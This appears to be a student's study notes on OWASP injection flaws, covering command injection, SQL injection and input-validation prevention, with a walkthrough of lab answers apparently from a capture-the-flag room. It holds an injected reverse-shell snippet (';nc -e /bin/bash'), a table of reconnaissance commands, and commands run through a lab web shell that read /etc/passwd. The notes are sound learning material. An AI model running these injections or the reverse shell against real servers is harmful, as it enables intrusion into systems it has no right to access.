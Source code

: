 OWASP_TOP_10
############
:Author: David Boyd
:Date: 2020-10-20
:PHP: https://www.php.net/
:Reverse Shells: https://cyberwarzone.com/reverse-shell-cheat-sheet/
:PHP passthru: https://www.php.net/manual/en/function.passthru.php

#########
INJECTION
#########

active command injection
	returns the response to the user  // can *see the response*
	(made visible through several HTML elements)
	#compare(blind command injection)

blind command injection
	occurs when a command injection (system command made to the server) does
	not return the response to the use in the HTML document. // *!=seeResponse*
	#compare(active command injection)

command injection
	input is passed to system commands
	[+] Access to users' systems
		- access to data
		- carry out more attacks against infrastructure linked to the server
		  on which the command is executed.
	[+] occurs when server-side code (like PHP) in a web application makes a
		system call on the hosting machine.
	#types(active, blind)
	[+] whoami -> ;nc -e /bin/bash (reverse shells)

PHP passthru
	executes what gets entered into the input
	then passing thr output back to the browser

PHP try-catch
	[+] PHP != output of stderr, but
	[+] PHP requires a 'catch' when using a 'try' statement


SQL Injection
	controlled input is passed to SQL queries
	[+] Access, Modify, and Delete information in a database


Prevention
==========

1.	Input validation
		a.	allow list
				- input is cmp to a list of safe input/chars
		b.	stripping input
				- rm dangerous chars (any input that can change how the
									  underlying data is processed).
		[+] There are libraries that perform these actions for you.

Injection Commands
==================

+-------------------+-------------+
| Linux             | Windows     |
+===================+=============+
| whoami            | whoami      |
+-------------------+-------------+
| id                | ver         |
+-------------------+-------------+
| ifconfig /ip addr | ipconfig    |
+-------------------+-------------+
| uname -a          | tasklist    |
+-------------------+-------------+
| ps -ef            | netstat -an |
+-------------------+-------------+
| cat cat/passwd    |             |
+-------------------+-------------+

id
	displays the current user's UID, GID, and Groups

Walkthrough
===========

#1.	What strange text file is in the website root directory?

	- Actions: 10.10.109.209/evilshell.php
	- Command: ls
	- ANSWER: drpepper.txt

#2.	How many non-root/non-service/non-daemon users are there?

	- ACTIONS: https://linuxize.com/post/how-to-list-users-in-linux/
	- COMMAND: grep -E '^UID_MIN|^UID_MAX' /etc/login.defs
	- COMMAND: getent passwd {1000..60000}
	- COMMAND: cat /etc/passwd
	- ANSWER: 0

#3. What user is this app running as?

	- COMMAND: whoami
	- ANSWER: www-data

#4. What is the user's shell set as?

	- INFO: User's shell is the last ':' parameter (NOTE:$USER has 2!)
	- COMMAND: cat /etc/passwd/ | grep www
	- ANSWER: /usr/sbin/nologin

#5. What version of Ubuntu is running?

	- INFO: LSB (Linux Standard Base) holds info about your *specific* distro
	- COMMAND: lsb_release - a
	- ANSWER: 18.04.4

#6. Print out the MOTD.  What favorite beverage is shown?

	- MOTD: The */etc/motd/* is a file that contains a "message of the day"
	- MOTD: Used to send a common message to all users efficiently > email
	- COMMAND: cat /etc/motd	**DOES NOT WORK!**
	- RESOLUTION: deduction of Q#1 && num of char placeholders in answer
	- ANSWER: Dr Pepper


